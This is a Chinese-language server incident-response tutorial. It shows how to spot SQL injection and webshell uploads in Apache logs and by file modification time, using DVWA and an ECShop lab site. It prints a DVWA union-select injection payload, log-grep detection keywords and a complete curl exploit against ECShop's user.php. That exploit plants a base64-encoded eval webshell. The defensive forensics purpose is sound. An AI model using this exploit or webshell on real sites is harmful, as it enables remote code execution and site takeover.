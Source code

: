 查找这个文件，排查

```
[root@xuegod63 ~]# find /www/ -name a.php
```

在 DVWA 进行 SQL 注入

> http://192.168.1.76/DVWA/vulnerabilities/sqli/

```
-1'union select 1,2 -- +
```

排查志中和 SQL 注入有关的访问

```
[root@CentOS-76 ~]# cat /var/log/httpd/access_log |grep "union\|select\|if\|sleep"
```

```
192.168.1.76 - - [02/Aug/2023:09:36:49 +0800] "GET /DVWA/vulnerabilities/sqli/?id=-1%27union+select+1%2C2+--+%2B&Submit=Submit HTTP/1.1" 200 4357 "http://192.168.1.76/DVWA/vulnerabilities/sqli/" "Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0"
```

> 这些记录证明收到了 SQL 注入的攻击

可以通过 IP 排查和这个 IP 有关的记录

```
[root@CentOS-76 ~]# cat /var/log/httpd/access_log |grep "192.168.1.76"
```

或者排查收到攻击之前的记录，逐步排查具体攻击时间

```
[root@CentOS-76 ~]# cat /var/log/httpd/access_log |grep "02/Aug/2023:09"
```

**通过时间检查站点被黑客修改过的文件**

模拟测试数据对 ecshop 站点写入 webshell

```
[root@xuegod63 ~]# curl http://ecshop.xueshenit.com/user.php -d"action=login&vulnspy=eval/**/(base64_decode(ZmlsZV9wdXRfY29udGVudHMoJ3Z1bG5zcHkucGhwJywnPD9waHAgZXZhbCgkX1JFUVVFU1RbdnVsbnNweV0pOycpOw));exit;" -H'Referer: 45ea207d7a2b68c49582d2d22adf953aads|a:3:{s:3:"num";s:207:"*/ select1,0x2720756e696f6e2f2a,3,4,5,6,7,8,0x7b247b2476756c6e737079275d3b6576616c2f2a2a2f286261736536345f6465636f646528275a585a686243676b5831425055315262646e5673626e4e77655630704f773d3d2729293b2f2f7d7d,0--";s:2:"id";s:9:"'"'"'union/*";s:4:"name";s:3:"ads";}45ea207d7a2b68c49582d2d22adf953a'
```

检查最近 1 天内被修改过的文件

```
[root@xuegod63 ~]# find /www/wwwroot/ecshop.xueshenit.com/ -name "*.php" -mtime -1
```

```
/www/wwwroot/ecshop.xueshenit.com/vulnspy.php
/www/wwwroot/ecshop.xueshenit.com/mobile/data/caches/caches/b/index_5F0C48C9.php
/www/wwwroot/ecshop.xueshenit.com/mobile/data/caches/query_caches/sqlcache_config_file_65128daae0a9e3ca67ca5c78972b8886.php
/www/wwwroot/ecshop.xueshenit.com/temp/caches/f/index_40F756F0.php
/www/wwwroot/ecshop.xueshenit.com/temp/query_caches/sqlcache_config_file_8f2b54dd1bf4a1a4cdad85d57e61738e.php
```
